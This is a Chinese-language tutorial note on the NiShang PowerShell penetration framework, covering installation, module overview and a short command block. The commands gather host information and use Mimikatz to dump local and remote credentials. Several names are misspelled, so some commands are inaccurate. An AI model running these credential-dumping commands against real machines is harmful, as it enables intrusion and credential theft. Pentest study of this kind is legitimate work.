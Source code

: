 > 推荐使用 NiShang

> 参考文章：https://www.4hou.com/posts/E99ml

> 下载地址: https://github.com/samratashok/nishang

> 各种命令解析： https://www.explainshell.com

#### 安装问题

nishang的使用是要在PowerShell3.0以上的环境中才可以正常使用。也就是说win7下是有点小问题的（win7下自带的环境是PowerShell 2.0， 自行升级）

- powershell ISE是一个编译器
- powershell有很多渗透框架：
- PowerSploit(最多，但是没维护了)、Empire、NiShang(一直更新，推荐), 学一种就行，大同小异

> 实际渗透中，肯定不能把Nishang整个目录都读到目标服务器上，所以在下载某一个脚本的时候，了解目录结构很重要

#### 目录结构：

<img src="https://image.geoer.cn/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F-%E7%9B%AE%E5%BD%95.png"></img>

#### 模块和功能介绍：

<img src="https://image.geoer.cn/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F-%E5%8A%9F%E8%83%BD.png"></img>

#### 演示：

端口扫描 密码获取 键盘记录 反弹会话 口令爆破

#### 实战应用：

- 后续控制
- 域渗透
- 系统提权

```pythn
# 使用，导入框架（如果出错，重新以管理员运行:执行`Set-ExecutionPolicy remotesigned`）

Import-Module .nishang.psml

# 载入模块  查看NiShang都有哪些模块

Get-Command -Moudle nishang

## 查看机器基本信息

Get-Information

# 把结果导出文件  Out-File

Get-Information | Out-File res.txt


# 检测是否为虚拟机

Check-VM


## 获取密码

Invoke-Minikatz
#Dump出本机的凭证信息
Invoke-Minikatz -DumpCerts
#dump出远程的两台计算机的凭证信息
Invoke-Minikatz -ComputerName @("computer1", "computer2")
#在远程的一台机器上运行Mimikatz 并执行 "privilege::debug exit"
Invoke-Minikatz -Command "privilege::debug exit" -ComputerName@("computer1")
```